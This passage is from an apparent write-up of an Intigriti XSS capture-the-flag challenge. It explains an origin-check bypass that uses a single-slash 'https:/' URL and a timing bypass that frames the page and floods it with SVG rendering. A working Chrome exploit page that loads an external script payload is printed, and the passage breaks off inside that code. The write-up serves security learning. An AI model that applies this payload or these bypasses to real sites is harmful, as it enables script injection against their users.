 I had an inkling that this could be bypassed due to differences in how the `URL` constructor was implemented in the two functions—I was sure there had to be some inconsistency. I quickly opened devtools and started debugging the variable values. After about an hour of debugging and fuzzing, I managed to bypass it with this payload:


```
https:/example.com/
```

Notice that only one `/` is used after `https:`, which tricks the `URL` constructor into treating it as a relative URL and appending it to `window.location`. When it compares the origins of both URLs, they appear the same. But if the URL is passed without an origin, the constructor is forced to parse and correct the `/` issue. Voilà! This bypasses the origin check, allowing a JS file hosted on any domain to serve as our XSS payload and trigger an alert. However, it wasn’t that simple—I still had to bypass the `requestIdleCallback` mechanism.

At this point, I looked for hints posted by Intigriti, but none made sense to me at the time. The only takeaway was that I needed to manipulate some form of window isolation or something along those lines.

```
You are keeping your windows isolated right?
```

I wasn’t quite sure what the hints were pointing to at first. Then I noticed the page didn’t have any headers or protections against framing. I figured framing might help, so I tried framing it and loaded some render-heavy elements to keep the event loop busy. After some attempts, I managed to trigger an alert in Chrome. But from the Discord server, I knew the real nightmare was getting it to work on Firefox. Sure enough, it didn’t work there.

## 🌐 Exploit - Chrome
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Exploit</title>
  </head>
  <body>
    <iframe
      width="100%"
      height="500%"
      src="https://challenge-0525.intigriti.io/index.html?name=%3C/strong%3E%3Cdiv%20id=CONFIG_SRC%20data-url=%22https:/temp.staticsave.com/6821d52de70e4.js%22%3Ell%3C/div%3Edcsd"
    ></iframe>
    <div class="container"></div>

    <script>
      async function run() {
        var ele = ` <svg width="10000" height="10000">
        <g>
          <circle cx="1" cy="1" r="1" fill="red" />
          <circle cx="2" cy="2" r="1" fill="blue" />
          <circle cx="3" cy="3" r="1" fill="green" />
        </g>
      </svg>`;
        var container = document.querySelector(".container");
        container.innerHTML = ele;
        // This will force the browser to render the SVG
        // and block the main thread
        for (var i = 0; i < 1200; i++) {
          container.innerHTML += ele;
        }
      }
      setTimeout(run, 2);
```